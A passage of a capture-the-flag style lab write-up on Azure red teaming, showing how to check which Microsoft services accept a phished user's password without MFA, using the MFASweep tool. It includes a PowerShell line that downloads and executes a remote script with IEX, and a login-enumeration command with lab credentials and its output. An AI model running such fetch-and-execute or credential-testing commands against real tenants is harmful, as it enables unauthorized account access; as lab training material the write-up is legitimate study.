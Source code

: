 ```yaml
---
title: Loot Exchange, Teams and SharePoint with GraphRunner 
description: Loot Exchange, Teams and SharePoint with GraphRunner 
image:
  path: azure.webp
categories:
- Pwned Labs
- Azure
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/azure/
tags:
- pwnedlabs
- azure
- cloud
---
```

# Scenario
Your red team is on an engagement and has successfully phished a Mega Big Tech employee to gain their credentials. So far increasing access within Azure has reached a dead end, and you have been tasked with unlocking further access. In scope is the entire on-premises and cloud infrastructure. Your goal is to gain access to customer records and demonstrate impact.

# Walkthrough
We are given user credentials, so let's check if MFA is enforced. We can use [MFASweep](https://github.com/dafthack/MFASweep) to enumerate it (There are other tools like [FindMeAccess](https://github.com/absolomb/FindMeAccess)). We can download the script and import it.
```
└─PS> . ./MFASweep.ps1
```
Or use `Invoke-Expression` to execute it
```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1')
```

Now let's enumerate the presence of MFA on Microsoft services. We also include a check for Active Directory Federated Services in case it is available
```
└─PS> Invoke-MFASweep -Username Clara.Miller@megabigtech.com -Password MegaBigTech99 -Recon -IncludeADFS
---------------- MFASweep ----------------
---------------- Running recon checks ----------------
[*] Checking if ADFS configured...
[*] ADFS does not appear to be in use. Authentication appears to be managed by Microsoft.
<SNIP>
---------------- ADFS Authentication ----------------
[*] Getting ADFS URL...
[*] ADFS does not appear to be in use. Authentication appears to be managed by Microsoft.                               
[*] Authenticating to On-Prem ADFS Portal at: 
######### SINGLE FACTOR ACCESS RESULTS #########                                                                                                                                                                                            
Microsoft Graph API                  | YES
Microsoft Service Management API     | YES
M365 w/ Windows UA                   | NO
M365 w/ Linux UA                     | NO
M365 w/ MacOS UA                     | NO
M365 w/ Android UA                   | NO
M365 w/ iPhone UA                    | NO
M365 w/ Windows Phone UA             | NO
Exchange Web Services (BASIC Auth)   | NO
```